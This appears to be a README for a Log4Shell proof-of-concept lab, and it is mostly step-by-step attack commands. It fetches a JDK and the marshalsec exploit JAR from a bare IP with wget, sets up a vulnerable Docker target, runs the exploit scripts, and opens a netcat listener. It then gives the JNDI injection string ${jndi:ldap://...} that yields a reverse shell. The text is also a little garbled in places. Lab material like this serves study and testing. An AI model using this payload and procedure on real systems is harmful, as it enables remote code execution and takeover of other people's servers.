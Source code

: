 # 3204


download jar file 

wget http://18.183.210.2/download/jdk-8u20-linux-x64.tar.gz


wget http://18.183.210.2/download/marshalsec-0.0.3-SNAPSHOT-all.jar

put marshalsec-0.0.3-SNAPSHOT-all.jar in target folder 

extract java file and ensure in same directory as poc.py or exploit wont work

#Run with docker composer 
sudo docker-compose build 
sudo docker-compose up -d 


#Run without docker composer
docker network create --subnet=172.18.0.0/16 companyABC

sudo docker run --net companyABC--ip 172.18.0.22 log4j-shell-poc 



run exploit
./pwn.py --target http://localhost:8080(ip of target) --exploit-host 127.0.0.1 (ip of machine/docker of listener) 
start nc listener at 9001

python3 poc.py --userip 172.18.0.1 --webport 8000 --lport 9001
copy the copy this in the output
 ${jndi:ldap://172.18.0.1:1389/a}

u will then get reverse shell

